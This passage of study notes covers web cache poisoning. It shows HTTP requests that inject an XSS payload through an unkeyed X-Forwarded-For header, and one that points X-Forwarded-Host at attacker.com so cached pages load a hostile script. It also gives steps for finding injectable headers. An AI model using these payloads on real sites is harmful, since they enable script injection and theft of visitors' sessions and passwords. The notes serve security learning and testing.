 ```
GET /en?region=in HTTP/1.1
Host: vuln-web.com
X-Forwarded-For: a."><script>alert(0)</script>"

```

response

```
HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" contet="<https://a>."><script>alert(0)</script>"/cms/social.png" />

```

if this is cached then any user visit en?region=in endpoint would get popup and this can be becoume dengerous for stealing password and session token etc.

## Using web cache poisoning to exploit unsafe handling of resource imports

- some website use `unkeyed headers` to dynamically generate `URLs` for importing resources, such as externally hosted `javascript files`
- in this case attacker change the value of `appropriate header` to domain that they control, they manipulate URL to Point their own `malicious javascript file` instead

`example:`

```
GET / HTTP/1.1
Host: vuln-web.com
X-Forwarded-Host: attacker.com
User-Agent: Mozilla/5.0

```

response

```
HTTP/1.1 200 OK
<script> src="<https://attacker.com/static/analytics.js>"></script>

```

- identify the unkey header and like `X-Forwarded-Host:` and supply any arbitrary url and see in the response if that is reflected or not and if reflecting then put XSS payload
- `NOTE :` dont forget to put `cachebuster` any parameter like `?cb=1234` so other user's can not affected by this.

## Using Web-cache poisoning to exploit cookie handling vulnerabilities

- Cookies are often used to dynamically generate content in a response.
- example: cookie that indicates the user's preferred language, which is then used to load the corresponding version of the page.
